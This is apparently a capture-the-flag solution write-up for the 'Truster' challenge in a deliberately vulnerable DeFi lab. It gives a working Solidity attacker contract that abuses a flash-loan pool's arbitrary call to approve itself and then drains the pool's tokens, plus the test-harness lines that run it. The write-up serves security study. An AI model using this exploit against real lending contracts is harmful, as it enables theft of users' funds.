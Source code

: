 # Truster

**HINT:** Look at the parameters and the arguments of the function ```flashLoan()``` 

<details>
<summary>Part 1</summary>
<p>

What this will do is use the token's function ```approve()``` as an argument. Which in turn, has the data payload of our contract that will approve it to withdraw the funds of the lender Pool
```
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/math/SafeMath.sol";

interface ITrusterLenderPool {
    function flashLoan(uint256 borrowAmount, address borrower, address target, bytes calldata data) external;
}

contract TrusterAttacker {
    using SafeMath for uint256;
    using Address for address payable;

    constructor() public {}
    
    function attack(IERC20 token, ITrusterLenderPool pool, address attackerEOA) public {
        uint256 poolBalance = token.balanceOf(address(pool));

        bytes memory approvePayload = abi.encodeWithSignature("approve(address,uint256)", address(this), poolBalance);
        pool.flashLoan(0, attackerEOA, address(token), approvePayload);
        
        token.transferFrom(address(pool), attackerEOA, poolBalance);
    }
}
```

</p>
</details>

<details>
<summary>Part 2</summary>
<p>

Now go to ```truster.challenge.js``` and at the top of the file add:
```js
const TrusterAttacker = contract.fromArtifact("TrusterAttacker");
```
And at ```Exploit``` add:
```js
this.attacker = await TrusterAttacker.new({ from: attacker });
await this.attacker.attack(this.token.address, this.pool.address, attacker);
```

```sh
npm run truster.challenge.js
```
</p>
</details>
